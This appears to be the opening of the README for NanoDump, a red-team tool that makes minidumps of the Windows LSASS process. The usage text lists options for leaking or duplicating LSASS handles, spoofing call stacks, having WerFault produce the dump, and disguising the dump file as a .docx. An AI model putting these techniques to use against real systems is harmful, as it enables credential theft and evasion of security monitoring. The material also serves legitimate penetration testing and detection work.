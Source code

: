 # NanoDump

A flexible tool that creates a minidump of the LSASS process.

![screenshot](resources/demo.png)

<h2>Table of contents</h2>

<ol>
  <li><a href="#usage">Usage</a></li>
  <li><a href="#features">Features</a></li>
  <li><a href="#combinations">Combining techniques</a></li>
  <li><a href="#examples">Examples</a></li>
  <li><a href="#redirectors">HTTPS redirectors</a></li>
</ol>

<h2 id="usage">1. Usage</h2>

```
usage: nanodump [--write C:\Windows\Temp\doc.docx] [--valid] [--duplicate] [--elevate-handle] [--seclogon-leak-local] [--seclogon-leak-remote C:\Windows\notepad.exe] [--seclogon-duplicate] [--spoof-callstack svchost] [--silent-process-exit C:\Windows\Temp] [--shtinkering] [--fork] [--snapshot] [--getpid] [--help]
Dumpfile options:
    --write DUMP_PATH, -w DUMP_PATH
            filename of the dump
    --valid, -v
            create a dump with a valid signature
Obtain an LSASS handle via:
    --duplicate, -d
            duplicate an existing LSASS handle
    --seclogon-leak-local, -sll
            leak an LSASS handle into nanodump via seclogon
    --seclogon-leak-remote BIN_PATH, -slt BIN_PATH
            leak an LSASS handle into another process via seclogon and duplicate it
    --seclogon-duplicate, -sd
            make seclogon open a handle to LSASS and duplicate it
    --spoof-callstack {svchost,wmi,rpc}, -sc {svchost,wmi,rpc}
            open a handle to LSASS using a fake calling stack
Let WerFault.exe (instead of nanodump) create the dump
    --silent-process-exit DUMP_FOLDER, -spe DUMP_FOLDER
            force WerFault.exe to dump LSASS via SilentProcessExit
    --shtinkering, -sk
            force WerFault.exe to dump LSASS via Shtinkering
Avoid reading LSASS directly:
    --fork, -f
            fork the target process before dumping
    --snapshot, -s
            snapshot the target process before dumping
Avoid opening a handle with high privileges:
    --elevate-handle, -eh
            open a handle to LSASS with low privileges and duplicate it to gain higher privileges
Miscellaneous:
    --getpid
            print the PID of LSASS and leave
Help:
    --help, -h
            print this help message and leave

```
